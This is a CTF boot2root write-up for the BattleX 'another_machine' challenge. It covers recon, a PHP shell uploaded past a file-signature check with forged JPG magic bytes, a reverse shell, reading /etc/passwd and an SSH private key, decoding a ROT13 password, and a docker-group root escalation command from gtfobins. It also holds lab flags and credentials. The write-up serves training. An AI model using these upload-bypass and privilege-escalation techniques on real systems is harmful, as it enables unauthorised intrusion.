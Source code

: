 ## BattleX CTF: another_machine 
#### Category: Boot2Root
#### Score: 30
#### Number of Solves: 4 

### TL; DR

Exploit upload functionality of a webserver to gain initial access, escalating privilege from low privileged user to root using docker group.

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-29 17:10 WAT
Nmap scan report for 10.10.90.12
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Death Note - Add Names
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.66 seconds
```

We have two services running. One SSH on port 22 and Apache web server on port 80. The versions of the services doesn't look like one with a public available exploit to hasten my progress.

### Exploring

![Port 80](https://i.imgur.com/IiUJoIt.png)

_Apache on port 80_

On uploading a JPG file, nothing happens, it seems it uploaded. But to what location?

I used `gobuster` to do a light directory bruteforce, using a common.txt wordlist from SecLists.

![Imgur](https://i.imgur.com/bTuZUNJ.png)

_Gobuster result_

/notes was discovered and on checking, it contained the uploaded file in it. Nice, I could exploit this upload to gain initial access to the base system. I tried uploading a php shell and was greeted by this. 

![Imgur](https://i.imgur.com/drkMEXr.png)

This _thing_ is validating the file signature and less likely the file extension (.php). To bypass this upload restriction. I copied a jpg file magic and pasted in the request, using BurpSuite Repeater.

![Imgur](https://i.imgur.com/RZfkdLr.png)

Boom, my shell uploaded.

![Imgur](https://i.imgur.com/cSUR2FR.png)

### Gaining access 

I opened my equivalent netcat listener and I have shell.

![Imgur](https://i.imgur.com/z6dd8hT.png)

```
www-data@deathnote:/opt/containerd$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[snip]
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
[snip]
ryuk:x:1000:1000:ryuk:/home/ryuk:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
light:x:1001:1001:,,,:/home/light:/bin/bash
```

### Privilege escalation

We have two users apart from root. Next, I uploaded linpeas to quicken my system enumeration proceedure. Linpeas detected a ssh private key in /opt/containerd/ directory which should belong to either of the users or probably root. 

```
www-data@deathnote:/opt/containerd$ ls

bin
id_rsa
lib
www-data@deathnote:/opt/containerd$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAzndKq1pSh74SM3nfOe2Wk+lcoLF6sIQMwL4wo7wTuRALVS8O
wDiejhpCJuZ72EAujPmsxJrDN5eD9h3Gvaf56gPcSBEomVoU2oWBVaISTuKjOvXK
[snip]
9cN3D9ruIqD060p8gTfKZAuvMKoTP3ChHAxdXVDcjl6ChTPCKRigQf0=
-----END RSA PRIVATE KEY-----
```
It turned out to be the ssh key for ryuk, now, I will use a more standard and stable shell access.

![Imgur](https://i.imgur.com/r0AGEGy.png)

_user.txt and I can't cat it??_

```
ryuk@deathnote:~$ ls -lah
total 44K
drwx---r-x 6 ryuk  ryuk 4.0K Jun 16 01:23 .
drwxr-xr-x 4 root  root 4.0K Jun 15 01:17 ..
lrwxrwxrwx 1 ryuk  ryuk    9 Jun 16 01:08 .bash_history -> /dev/null
-rw-r--r-- 1 ryuk  ryuk  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 ryuk  ryuk 3.7K Apr  4  2018 .bashrc
drwx------ 2 ryuk  ryuk 4.0K Jun 14 20:52 .cache
drwx------ 3 ryuk  ryuk 4.0K Jun 14 20:52 .gnupg
drwxrwxr-x 3 ryuk  ryuk 4.0K Jun 15 00:49 .local
-rw-r--r-- 1 ryuk  ryuk  807 Apr  4  2018 .profile
-rwx------ 1 ryuk  ryuk   24 Jun 15 01:16 rotedcreds
drwx------ 2 ryuk  ryuk 4.0K Jun 16 01:28 .ssh
-rw-r--r-- 1 ryuk  ryuk    0 Jun 14 20:55 .sudo_as_admin_successful
-rwxr----- 1 light root   33 Jun 15 01:21 user.txt
```

user.txt is owed by user light and root and there's a suspicious `rotedcreds` file which contained a ciphered text. I will proceed to use cyberchef or any tool to anaylse the text and get something useful from it.

![Imgur](https://i.imgur.com/VmKtjp7.png)

_ROT13 with amount 13_

Credential for light, gotten.

light:0lightyagami23433

```
ryuk@deathnote:~$ su light
Password:
light@deathnote:/home/ryuk$ cat user.txt
5eb63bbbe01eeed093cb22bb8f5acdc3
light@deathnote:/home/ryuk$
```

User flag gotten!!

User flag: `5eb63bbbe01eeed093cb22bb8f5acdc3` 

### Privilege escalation to root

![Imgur](https://i.imgur.com/NIr8bZQ.png)

_Manual enumeration_

Light may not use sudo but Light is in the docker group. Meaning, Light can run docker as root. I can easily escalate to root with this discovery. By running this command, `docker run -v /:/mnt --rm -it alpine chroot /mnt bash` (source: gtfobins), I will be spawned into a root shell.

![Imgur](https://i.imgur.com/e0sZ5EU.png)

```
root@729fd2f76468:~# ls -lah
total 40K
drwx------  6 root root 4.0K Jun 16 02:12 .
drwxr-xr-x 24 root root 4.0K Jun 14 20:01 ..
lrwxrwxrwx  1 root root    9 Jun 15 04:14 .bash_history -> /dev/null
[snip]
drwx------  2 root root 4.0K Jun 14 20:51 .ssh
-r--r--r--  1 root root  353 Jun 15 01:37 deathnote
-rw-------  1 root root  123 Jun 16 02:12 root.txt
root@729fd2f76468:~# cat root.txt
here is your flag but please remove the deathnote before leaving h4ckerm4n

1f3870be274f6c49b3e31a0c6728957f
root@729fd2f76468:~#
```
Root flag gotten.

Root flag:`1f3870be274f6c49b3e31a0c6728957f`

### Extras

There's a note saying I should remove the deathnote before leaving, its clearly having read and no write permissions. 

```
root@729fd2f76468:~# chmod 777 deathnote
chmod: changing permissions of 'deathnote': Operation not permitted
root@729fd2f76468:~# chattr -i deathnote
Hacksparo was too smart -i deathnote
```
_Tried to use chattr_

I will figure out a way later. Onto the next.

### References

1. [gtfobins](https://gtfobins.github.io/gtfobins/docker/)